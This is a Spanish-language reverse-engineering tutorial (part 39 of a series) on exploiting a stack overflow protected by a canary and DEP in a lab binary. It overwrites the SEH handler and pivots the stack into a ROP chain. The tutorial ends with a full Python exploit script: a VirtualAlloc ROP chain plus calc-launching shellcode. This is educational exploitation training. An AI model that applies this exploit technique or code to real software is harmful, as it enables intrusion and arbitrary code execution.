← Índice de los 69 tutes de IDA
Tute 39 · Canary + DEP pisando SEH
▶ video afín (mismo autor, en x64dbg): «21 Excepciones 2» · se conecta con: Vulnerabilidades (defensivo)
INTRODUCCIÓN AL REVERSING CON IDA PRO DESDE CERO PARTE 39
CANARY_con_DEP.EXE
Nos queda como último caso la explotación de un stack overflow con CANARY Y DEP pisando el SEH.

Le cambiamos el nombre al ejecutable y atacheamos el IDA a ver qué pasa.

Igual que antes crashea cuando se le acaba el stack, veamos los SEH,

Igual que antes pisa con el puntero al pop pop ret, pongamos un breakpoint ahí.

Apreto F9 y acepto la excepción.

Allí estoy como siempre el stack en su tercera posición hay un puntero al NEXT.

Si voy ejecutando con F7.

Salto al stack ese JMP es el EB 06 90 90 del NEXT, pero cuando lo quiero ejecutar.

No se puede ejecutar el stack por el DEP habrá que hacer un ROP.
El problema es que para hacer un ROP el stack se ha movido y nuestra data no está apuntada por ESP para continuar ROPEANDO, así que en este caso en vez de un POP POP RET necesitamos un gadget que deje el stack acomodado para que cuando ejecute el RET de ese GADGET, tome una dirección mía del stack para poder seguir teniendo el control y continuar ropeando.
Vimos que en mi caso antes de ejecutar el POP POP RET ESP valía 0xAFEF98

Y buscaré la dirección en el stack donde comienza mi data.
Pongo que busque el immediate value 0x41414141.

Vemos que comienza en 0xAFF5A8 podemos sacar la distancia, la data está más abajo de ESP.
hex(0xAFF5A8 - 0xAFEF98)

Así que la distancia entre ESP y el inicio de mi data es 0x610, quiere decir que si busco un gadget
ADD ESP, XXXX -RET
Si XXXX es mayor que 0x610 siempre que no se vaya fuera del stack, moverá ESP adonde está mi data para continuar ropeando.
Veamos los gadgets de Mypepe.

Veo que lo más que le suma a ESP es 0x30 no llega hasta mi fruta.
Lamentablemente no tiene o al menos yo no encontré ningún gadget, ni siquiera usando la tool Agafi que lo adjunte, para el que lo quiere aprender a usar.
AGAFI

Corro el gisnap con el proceso parado después de manejar la excepción, por ejemplo en el primer POP del POP POP RET, sin ejecutar nada.
Este gisnap hará un dumpeado del proceso, luego tengo que editar el archivo objective.txt del agafi poniendo cual es la condición que quieres que se dé, en este caso podría ser.
esp= [esp+0x08]
Y le podes configurar que solo busque partiendo de cierto ejecutable como en este caso Mypepe.dll.
Dejo descomentada la condición y el rango que necesito.

Después corro el agafi poniendo el nombre del dump que hice antes, que lo guardo en la misma carpeta y el nombre de un txt de salida.
agafi.exe objective.txt dumped.dmp pepe.txt
Encontró algunos gadget raros pero el problema.
----------------------------------------
[x] Valid gadget at: 7801194e
--> matchs: esp=[esp+0x8]
--> stack used: N/A
--> preserved registers:
*** 7801194e: clc
*** 7801194f: popa
*** 78011950: jl 0x7801195a
*** 7801195a: pop ebx
*** 7801195b: leave
*** 7801195c: ret
Es que después de ejecutarlo ESP queda apuntando nuevamente justo al SEH y vuelve a saltar al mismo gadget y se rompe en la segunda vez por un valor de EBP 0x41414141 que pasa a ESP en el LEAVE-RET.
Bueno para poder terminarlo y demostrar cómo se hace, le agregare una instrucción ADD ESP, XXXX -RET al Mypepe.

Usaremos ese como gadget para saltar desde el SEH.

Probemos saltar ahí cuando crashea, manejando la excepción.

Vemos que después de ejecutar el ADD ESP, 700 ya me queda para continuar allí con el ROP y luego el shellcode.
Vemos la distancia donde debe ir el ROP aquí estoy en ESP=0xeff5c0 y veamos donde empieza mi data.

Empieza en 0xeff4d4 puedo hacer la resta y ver la distancia.

Armo el script.
from os import *
import struct
def create_rop_chain():
# rop chain generated with mona.py - www.corelan.be
rop_gadgets = [
0x7801eb94, # POP EBP # RETN [Mypepe.dll]
0x7801eb94, # skip 4 bytes [Mypepe.dll]
0x7801ee74, # POP EBX # RETN [Mypepe.dll]
0x00000001, # 0x00000001-> ebx
0x7802920e, # POP EDX # RETN [Mypepe.dll]
0x00001000, # 0x00001000-> edx
0x7800a849, # POP ECX # RETN [Mypepe.dll]
0x00000040, # 0x00000040-> ecx
0x78028756, # POP EDI # RETN [Mypepe.dll]
0x7800b281, # RETN (ROP NOP) [Mypepe.dll]
0x78001492, # POP ESI # RETN [Mypepe.dll]
0x780041ed, # JMP [EAX] [Mypepe.dll]
0x78013953, # POP EAX # RETN [Mypepe.dll]
0x7802e030, # ptr to &VirtualAlloc() [IAT Mypepe.dll]
0x78009791, # PUSHAD # ADD AL,80 # RETN [Mypepe.dll]
0x7800f7c1, # ptr to 'push esp # ret ' [Mypepe.dll]
]
return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
shellcode ="\xB8\x40\x50\x03\x78\xC7\x40\x04"+ "calc" + "\x83\xC0\x04\x50\x68\x24\x98\x01\x78\x59\xFF\xD1\x68\xAB\x39\x00\x78\xC3"
stdin,stdout = popen4(r'CANARY_con_DEP.exe -1')
print "ATACHEA EL DEBUGGER Y APRETA ENTER\n"
raw_input()
rop= create_rop_chain()
next="\x41\x41\x41\x41"
seh=struct.pack("<L", 0x7802d415)
data=(0xec) * "A" + rop + shellcode
fruta = data + ((844-len(data)) * "A" )+ next + seh + 6000 * "A" + "\n"
print stdin
print "Escribe: " + fruta
stdin.write(fruta)
print stdout.read(40)
Vemos que use el mismo ROP que antes y le agregue el mismo shellcode para Mypepe y funciono.

Vemos que cuando llego al RET el ROP queda en el stack desde el inicio, para continuar ropeando y ejecutando el shellcode.

Ahí ejecuto la calculadora.
Hasta la parte 40
Ricardo Narvaja